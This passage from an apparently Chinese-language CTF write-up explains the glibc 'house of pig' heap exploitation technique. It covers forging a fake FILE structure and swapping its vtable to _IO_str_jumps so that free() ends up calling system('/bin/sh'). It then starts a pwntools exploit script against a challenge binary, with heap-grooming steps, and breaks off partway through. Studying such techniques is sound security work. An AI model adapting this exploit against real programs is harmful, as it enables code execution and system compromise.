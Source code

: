 之后，调用``free``函数，其参数是``old_buf``这个地址，我们只需要让这个地址开头写有``/bin/sh``即可执行``system("/bin/sh")``。这里的内容需要进行精心设计，要控制好偏移的值，同时还需要保证写入到``_IO_list_all``的堆地址就是假``FILE``结构体的地址。注意到``_IO_list_all``的堆地址实际上是large bin中的chunk地址，因此可以通过在最后``calloc``时切割这个large bin chunk实现对该地址及后面大块空间的完全控制。

至于我们如何让程序执行``_IO_str_overflow``这个函数，很简单。这个函数的地址是保存在``_IO_str_jumps``这个结构体中的，在一般程序正常运行的情况下，``_IO_list_all``保存有指向标准输入输出的``FILE``结构体，其中的``vtable``指向的应该是``_IO_file_jumps``，而``_IO_file_jumps``与``_IO_str_jumps``是一个结构体类型的实例，二者的不同之处是，``_IO_file_jumps``用于一个``FILE``结构体在出现异常时调用的函数列表，我们在假``FILE``结构体中将``vtable``写成``_IO_str_jumps``，实际上就是将程序的执行流从``_IO_file_overflow``改成``_IO_str_overflow``。这也是house of pig利用的思想精髓所在。

exp: （其中假``FILE``结构体中某些字段的设置也有讲究，这个会在下面的演示程序中说明）

```python
import time

from pwn import *
context.log_level = 'debug'

io = process(['./pig'])
elf = ELF('./pig')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
password = [b'AY7Hr0', b'BRgTa2', b'CnY841']
current_user = 0

def add(content_length, content = None):
    io.sendlineafter(b'Choice: ', b'1')
    io.sendlineafter(b'message size: ', str(content_length).encode())
    if content is None:
        content = str(current_user) * (content_length // 0x30 * 0x10)
    io.sendafter(b'message: ', content)

def view(index):
    io.sendlineafter(b'Choice: ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def edit(index, content):
    io.sendlineafter(b'Choice: ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())
    io.sendafter(b'message: ', content)

def delete(index):
    io.sendlineafter(b'Choice: ', b'4')
    io.sendlineafter(b'index: ', str(index).encode())

def change_role(role):
    global current_user
    io.sendlineafter(b'Choice: ', b'5')
    io.sendlineafter(b'user:\n', password[role])
    current_user = role

# 部署tcache stashing unlink attack的堆环境
change_role(1)
for i in range(5):      # make 5 chunk into tcache, mummy index 0~4
    add(0xA0)
    delete(i)
change_role(0)
add(0x150)    # peppa index 0
for i in range(7):      # fill 0x120 tcache, peppa index 1~7
    add(0x150)
    delete(i + 1)
delete(0)               # peppa #0 into unsorted bin
change_role(1)
add(0xA0)               # mummy index 5, split peppa #0
change_role(0)
add(0x160)              # peppa index 8
```